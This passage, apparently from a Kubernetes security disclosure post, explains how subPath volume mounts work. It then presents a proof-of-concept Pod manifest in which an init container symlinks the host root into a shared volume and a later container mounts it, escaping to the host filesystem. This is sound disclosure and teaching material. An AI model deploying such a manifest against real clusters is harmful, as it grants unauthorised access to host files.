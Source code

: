 In this example, when the Pod gets scheduled to a node, the system will:

* Set up an EmptyDir volume at `/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume`
* Construct the host path for the subpath mount: `/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume/ + dataset1`
* Pass the following mount information to the container runtime:
  * Container path: `/mnt/data`
  * Host path: `/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume/dataset1`
* The container runtime bind mounts `/mnt/data` in the container root filesystem to `/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume/dataset1` on the host.
* The container runtime starts the container.

## The Vulnerability

The vulnerability with subpath volumes was discovered by Maxim Ivanov, by making a few observations:

* Subpath references files or directories that are controlled by the user, not the system.
* Volumes can be shared by containers that are brought up at different times in the Pod lifecycle, including by different Pods.
* Kubernetes passes host paths to the container runtime to bind mount into the container.

The basic example below demonstrates the vulnerability. It takes advantage of the observations outlined above by:

* Using an init container to setup the volume with a symlink.
* Using a regular container to mount that symlink as a subpath later.
* Causing kubelet to evaluate the symlink on the host before passing it into the container runtime.

```
apiVersion: v1
kind: Pod
metadata:
  name: my-pod
spec:
  initContainers:
  - name: prep-symlink
    image: "busybox"
    command: ["bin/sh", "-ec", "ln -s / /mnt/data/symlink-door"]
    volumeMounts:
    - name: my-volume
      mountPath: /mnt/data
  containers:
  - name: my-container
    image: "busybox"
    command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
    volumeMounts:
    - mountPath: /mnt/data
      name: my-volume
      subPath: symlink-door
  volumes:
  - name: my-volume
    emptyDir: {}
```
